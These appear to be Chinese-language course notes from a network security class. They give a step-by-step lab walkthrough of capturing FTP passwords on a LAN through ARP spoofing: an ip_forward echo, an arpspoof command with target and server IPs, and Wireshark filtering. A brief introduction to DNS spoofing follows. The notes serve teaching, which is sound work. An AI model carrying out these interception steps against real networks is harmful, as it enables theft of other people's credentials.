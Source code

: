 
# ==第六天笔记==

# 抓取FTP密码（局域网内部）

* 开启Linux内核转发

  ```
  echo 1 > /proc/sys/net/ipv4/ip_forward
  #将ip_forward赋值为1，可用cat /proc/sys/net/ipv4/ip_forward命令查看
  #值为1时开启内核转发，为0则不转发，被攻击机器无法正常上网
  ```

  ![image-20230807112150728](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230807112150728.png)

* 进行arp欺骗

  ```
  arpspoof -i eth0 -t 192.168.242.128 -r 192.168.242.2
  # -i后接网卡名称，可以用 IP a查看IP地址前对应的网卡名称
  # -t后接攻击目标的IP地址
  # -r后接攻击目标连接的ftp服务器（ftp在局域网内传输，不需要经过网关ftp请求直接经过路由器到达ftp服务器。kali需要伪装成ftp，将自己的mac地址对应为ftp服务器的mac地址将此信息发送给攻击目标，攻击目标在寻找ftp服务器ip对应的mac地址时，会将发送给服务器的数据包发送给kali）
  ```

  ![image-20230807112209769](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230807112209769.png)

* 打开wireshark监听

* windows7访问ftp服务器并输入账号密码登录

  ![image-20230807112327391](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230807112327391.png)

* wireshark筛选ftp流量，抓取到请求ftp的密码

  ![image-20230807112505854](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230807112505854.png)








# DNS欺骗--钓鱼网站的攻击与防御

## DNS

> 域名解析系统，根据域名查出对应的 IP地址

<img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/20180529183822818.png" alt="img" style="zoom:67%;" />

```
主机名.次级域名.顶级域名.根域名

baike.baidu.com.root
```
